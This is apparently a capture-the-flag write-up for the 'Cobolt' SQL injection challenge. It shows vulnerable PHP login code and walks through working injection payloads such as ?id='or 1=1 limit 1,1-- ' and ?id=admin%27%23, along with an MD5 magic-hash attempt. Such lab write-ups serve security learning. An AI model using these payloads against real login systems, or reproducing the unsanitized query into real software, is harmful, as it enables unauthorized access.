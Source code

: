 # **Cobolt**

```
`<?php  
  include "./config.php";   
  login_chk();  
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id'] == 'admin') solve("cobolt");  
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";   
  highlight_file(__FILE__);   
?>`
```

First, input the payload of challenge 1, `?id='or 1=1 -- '`, you'll get page like following:

![](https://i.imgur.com/HFBTMaM.png)

I later notice that pw=md5('{$_GET[pw]}'), is that PHP MD5 vulnerability?

Let's try `?id=admin&pw=240610708`.

![](https://i.imgur.com/JAMyU7D.png)

Sad, seems not like that.

Then, i notice that : `<h2>Hello {$result['id']}<br>You are not admin :(</h2>`.

So, `rubiya` actually login, I just mistake that as totally failed message.

This means `rubiya` is the first `id` data of `prob_cobolt` table.

For this, we can use LIMIT to query other data instead of first data.

`LIMIT [Query start number],[Query data amount]`

In here, `$result = @mysql_fetch_array(mysql_query($query));` just only get one data, so `[Query data amount]` can only be 1, bigger one is useless.

You can try `[Query start number]` from east to west, by here's answer is 
```?id='or 1=1 limit 1,1-- '```

![](https://i.imgur.com/2KFFseS.png)

Another method:

```?id=admin%27%23```           (?id=admin'#)

Cuz `#` will be ignored by browser, turn it to hex value to make it executable.

![](https://i.imgur.com/UH5sQle.png)
